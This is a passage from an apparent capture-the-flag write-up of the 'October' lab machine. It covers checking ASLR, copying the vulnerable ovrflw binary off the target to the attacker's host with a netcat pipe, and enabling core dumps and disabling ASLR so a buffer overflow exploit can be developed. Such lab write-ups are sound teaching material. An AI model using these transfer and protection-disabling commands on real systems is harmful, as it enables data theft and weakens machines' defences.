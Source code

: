 Since the memory address changed, I figured the ASLR kernel countermeasure was enabled. I was also able to verify that ASLR was enabled by checking the following:

```none
$ cat /proc/sys/kernel/randomize_va_space
2
```

2 meant that ASLR was enabled to fully randomize the stack layout which was why the memory address would change after every attempt.

At this point, I figured it would be better to develop a buffer overflow exploit for this binary on one of my local machines, so I transferred the file from the October machine to my kali machine via netcat.

On the October machine:

```bash
cat /usr/local/bin/ovrflw - | nc 10.10.14.33 2002
```

On my kali machine:

```none
$ ncat -nlvp 2002 > overflw
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2002
Ncat: Listening on 0.0.0.0:2002
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:60560.
```

Eventually, I stopped the download and verified the file's checksum to ensure it wasn't corrupt:

```none
$ sha1sum /usr/local/bin/ovrflw
e93408c2c717d425fd175818697c9a8d62c5022a  /usr/local/bin/ovrflw
```

The checksum matched on my kali machine!

## Enabling Core Dumps

*Word of caution: only enable core dumps on debugging/development machines since they can contain sensitive information!*

This isn't a necessary step, but if you wish to enable core dumps on your machine, you can do something like the following:

```bash
echo '/tmp/core_%e.%p' | sudo tee /proc/sys/kernel/core_pattern
sudo systemctl daemon-reload
ulimit -c unlimited
```

The following command below disables ASLR so that you can reliably overflow a particular address:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
